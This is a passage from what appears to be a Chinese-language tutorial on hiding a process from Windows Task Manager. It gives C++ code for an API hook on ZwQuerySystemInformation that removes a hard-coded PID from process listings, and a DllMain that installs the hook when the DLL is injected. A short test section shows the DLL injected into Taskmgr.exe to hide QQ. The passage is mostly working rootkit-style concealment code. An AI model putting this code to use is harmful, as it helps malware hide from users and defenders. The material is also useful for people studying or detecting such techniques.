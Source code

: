 自己可控的函数,即`New_ZwQuerySystemInformation`

    
    
    NTSTATUS WINAPI New_ZwQuerySystemInformation(SYSTEM_INFORMATION_CLASS SystemInformationClass, PVOID SystemInformation, ULONG SystemInformationLength, PULONG ReturnLength){    NTSTATUS status = NULL;    PSYSTEM_PROCESS_INFORMATION pCur = NULL, pPrev = NULL;    DWORD dwHideProcessId = 29936;    //先卸载钩子    unhookZwQuerySystemInformation();    // 获取 ntdll.dll 的加载基址, 若没有则返回    HMODULE hntdll = LoadLibraryA("ntdll.dll");    if (!hntdll) {        std::cout << "[!] Load ntdll Faild..\n";        return status;    }    // 获取 ZwQuerySystemInformation 函数地址#ifdef _WIN64    typedef DWORD(WINAPI* typedef_ZwQuerySystemInformation)(        _In_      SYSTEM_INFORMATION_CLASS SystemInformationClass,        _Inout_   PVOID                    SystemInformation,        _In_      ULONG                    SystemInformationLength,        _Out_opt_ PULONG                   ReturnLength        );#else    typedef DWORD(WINAPI* typedef_ZwQuerySystemInformation)(        _In_      SYSTEM_INFORMATION_CLASS SystemInformationClass,        _Inout_   PVOID                    SystemInformation,        _In_      ULONG                    SystemInformationLength,        _Out_opt_ PULONG                   ReturnLength        );#endif    typedef_ZwQuerySystemInformation ZwQuerySystemInformation = (typedef_ZwQuerySystemInformation)::GetProcAddress(hntdll, "ZwQuerySystemInformation");    if (!ZwQuerySystemInformation) {        std::cout << "[!] Get ZwQuerySystemInformation Addr Faild..\n";        return status;    }    //调用原来的函数,第二个参数是返回请求的信息    status = ZwQuerySystemInformation(SystemInformationClass, SystemInformation, SystemInformationLength, ReturnLength);    if (NT_SUCCESS(status) && 5 == SystemInformationClass)    {        pCur = (PSYSTEM_PROCESS_INFORMATION)SystemInformation;        while (TRUE)        {            // 判断是否是要隐藏的进程PID,是就把该进程信息删除            if (dwHideProcessId == (DWORD)pCur->UniqueProcessId)            {                if (0 == pCur->NextEntryOffset)                {                    pPrev->NextEntryOffset = 0;                }                else                {                    pPrev->NextEntryOffset = pPrev->NextEntryOffset + pCur->NextEntryOffset;                }            }            else            {                pPrev = pCur;            }            if (0 == pCur->NextEntryOffset)            {                break;            }            pCur = (PSYSTEM_PROCESS_INFORMATION)((BYTE*)pCur + pCur->NextEntryOffset);        }    }    //挂钩    hookZwQuerySystemInformation();    return status;}

以上函数全部写在dll中,`dllmain`主函数:

    
    
    BOOL APIENTRY DllMain( HMODULE hModule,                       DWORD  ul_reason_for_call,                       LPVOID lpReserved                     ){    switch (ul_reason_for_call)    {    case DLL_PROCESS_ATTACH:        hookZwQuerySystemInformation();        g_hModule = hModule;        break;    case DLL_THREAD_ATTACH:        break;    case DLL_THREAD_DETACH:        break;    case DLL_PROCESS_DETACH:        unhookZwQuerySystemInformation();        break;    }    return TRUE;}

## 测试

•win10•64位dll•Injectdll(进程注入程序)•Taskmgr.exe

要注意的是dll的位数。找到任务管理器pid:

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210902012029.png)

这里选择隐藏QQ程序

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210902012030.png)

注入程序后

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210902012032.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210902012033.png)
